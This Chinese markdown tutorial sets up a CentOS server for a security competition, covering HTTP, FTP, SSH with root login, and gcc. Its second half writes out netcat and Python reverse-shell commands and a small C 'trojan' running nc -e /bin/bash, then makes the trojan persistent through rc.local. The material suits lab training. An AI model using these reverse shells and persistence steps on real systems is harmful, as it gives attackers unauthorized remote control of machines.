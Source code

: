 # centos比赛场景的服务器场景还原


### centos 自动联网
```shell
>>>cd /etc/sysconfig/network-scripts
>>>vi ifcfg-eth0 #修改ONBOOT=no 改为 ONBOOT=yes
>>>service network restart
```
### HTTP服务的安装
>下面是基础的使用知识，附赠一个php站点的搭建实例[dvwa搭建](http://blog.csdn.net/isinstance/article/details/54090936)
```shell
>>> yum install httpd 
>>> vim /etc/httpd/conf/httpd.conf #apache2的配置(题外话：apt-get install apache2　是一样的)
>>> echo "hello class" > /var/www/html/index.html #写一个首页
>>> service httpd restart

```

### FTP服务的安装

安装后要把chroot_list_enable=NO这样设置，不然就要指定chroot_list
```shell
>>>yum install -y vsftpd #安装ftp服务
>>>yum install -y lftp #安装测试ftp服务的工具
>>>vim /etc/vsftpd/vsftpd.conf
>>>service vsftpd start #启动ftp服务
>>>service vsftpd status #查看服务的状态
>>>lftp 127.0.0.1 #查看是否可以链接ftp
>>>lftp 127.0.0.1 -u root #指定用户登录
```


### SSH服务的安装

```shell
>>>yum install openssh*#安装ssh服务，对应的(apt-get install ssh)
```
```shell
vi /etc/ssh/sshd_config #打开配置文件
```
把下面两个配置的＃去掉
```shell
PermitEmptyPasswords no
PasswordAuthentication yes
PermitRootLogin yes　＃确保root可以登录，同理如果做安全加固，这里要注释掉
```
重启
```shell
service sshd.service restart #重启服务
chkconfig sshd on　#设置开机启动
```

### GCC的安装
>gcc是c语言程序的编译程序

```shell
>>> yum install gcc* 
```

### python
>python是自带的不需要安装。。

### nmap
>[nmap详解](http://blog.csdn.net/github_35068711/article/details/51530422)

### c语言编译
>这里面我们讲解一下c语言程序简单的编译技巧
首先安装gcc
```shell
>>> yum install gcc*
```
其次写一个c代码的文件hello.c
```c
#include<stdlib.h>
    int main(int argc,char **argv)
    {
        printf("Hello,Linux.\n");
        exit(0);
    }
```
对单个文件进行编译

```shell
>>>gcc -o hello hello.c
>>>./hello #执行
```

### nc反射
>nc全名是netcat　是一个网络工具，这里面我们使用它来完成我们的反射需要两个电脑

在自己电脑上开启一个端口监听
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> nc -e /bin/bash 192.168.1.101 8080 #在目标电脑上反向连接我们的电脑8080端口，ip是我们自己的ip
>>> ifconfig #在我们自己电脑上执行命令，这就可以对服务器进行操作了，这个叫反射
```
下面我们来完成一个python语言版本的shell反射
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
>>> ifconfig #在本机执行命令
```

### 下面完成我们的任务，编译一个木马，然后利用nc反射一个shell
先编写一个简单的反射shell的c代码
```c
#include<stdlib.h>
main()
{
system(“nc -e /bin/bash 127.0.0.1”);
}
```
或者用下面的版本system.c，反正都是简单的实现
```c
#include<stdlib.h>
int main(int argc,char* argv[])
{
char shell_cmd[100];
sprintf(shell_cmd,"nc -e /bin/bash %s %s",argv[1],argv[2]);
system(shell_cmd);
}
```
### 下面我们来完成完成编译，执行，反射

```shell
>>> gcc -o shelltest system.c #编译c代码
>>> chmod +x shelltest
>>> nc -l -p 8080 #本地电脑监听8080端口
>>>./shelltest 127.0.0.1 8080 ＃目标电脑木马反向连接自己的电脑
>>> ifconfig #本地电脑执行命令验证结果
```
### 让我们把这个小“木马”放进开机启动
```shell
>>>chmod +x shelltest
>>>chmod +x /etc/rc.d/rc.local 
>>>vim /etc/rc.d/rc.local＃编辑它并在里面协商/xxx/xx/xx/shelltest　192.168.1.109 8080 &
>>>reboot #重启看看效果
```
